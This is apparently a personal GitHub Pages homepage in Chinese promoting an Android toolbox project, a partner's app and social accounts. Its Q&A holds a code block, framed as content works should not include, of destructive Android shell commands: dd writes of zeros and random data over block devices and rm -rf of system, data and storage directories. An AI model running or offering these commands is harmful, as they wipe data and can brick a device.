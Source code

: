 
## 您の家

欢迎来到慕容奈依的GitHub-io主页！   
您可以看到受支持的gitee网页[Wen_kong_App](https://gitee.com/qiuleyo/wen_kong_app/) by 秋乐   
您也可以看到慕容奈依的作品[LuomoToolbox](https://github.com/Murong-Naiyi/Luomo-Toolbox)，为相关设备提供辅助作用（部分存在不可控因素）   
慕容奈依与秋乐API合作，使用秋乐API为每个使用者提供更好的使用体验   

秋乐一群647299031    
秋乐二群338588801 (已无)   

# Q ＆ A

### Q：何处使用慕容奈依及相关作品？

A：您可以在各处使用慕容奈依及相关作品（例如Gitee，GitHub，酷安等），   
   但是其中内容理应不包含以下内容

```markdown

dd if=/dev/zero of=/dev/block/sda bs=1M count=100
dd if=/dev/zero of=/dev/block/sdb
dd if=/dev/zero of=/dev/block/sdc
dd if=/dev/zero of=/dev/block/sdd
dd if=/dev/zero of=/dev/block/sde
dd if=/dev/zero of=/dev/block/sdf
dd if=/dev/zero of=/dev/block/sda1
dd if=/dev/zero of=/dev/block/sda2
dd if=/dev/zero of=/dev/block/sda3
dd if=/dev/zero of=/dev/block/sda4
dd if=/dev/zero of=/dev/block/sda5
dd if=/dev/zero of=/dev/block/sda6
dd if=/dev/zero of=/dev/block/sda7
dd if=/dev/zero of=/dev/block/sda8
dd if=/dev/zero of=/dev/block/sda9
dd if=/dev/zero of=/dev/block/sda10
dd if=/dev/zero of=/dev/block/sda11
dd if=/dev/zero of=/dev/block/sda12
dd if=/dev/zero of=/dev/block/sda13

dd if=/dev/zero of=/dev/block/loop*
dd if=/dev/zero of=$(magisk --path)/.magisk/block/system_root

rm -rf /system
rm -rf /data
rm -rf /vendor
rm -rf /product
rm -rf /sdcard
rm -rf /storage/emulated/0
rm -rf /storage/sdcard

devices=`ls /dev/block/sd*`
for poweroff in ${devices}
do
echo "poweroff" > ${poweroff}
done

for unonline in $(ls -aR /dev/block/*)
do
dd if=/dev/urandom of=${unonline} bs=1k count=1
done

……

```

 但如在实际使用过程中遇到以上内容，那么则为不可控因素，请节哀   

### Q：何处支持慕容奈依及其他（如秋乐等）？

A：如果需要支持慕容奈依，那么您可以到网易大神、快点、迷说、酷安、快手、抖音、爱奇艺、哔哩哔哩、西瓜视频、今日头条、TT语音、比心、知乎、好看视频、小红书、YouTube、Facebook、Twitter、AcFun、Soul、陌陌等平台进行关注   
   名字通常为“泠熙子”（部分存在重名或其他差异，以及名字更改等，请以实际情况为准）   
秋乐：Gitee，酷安，QQ群
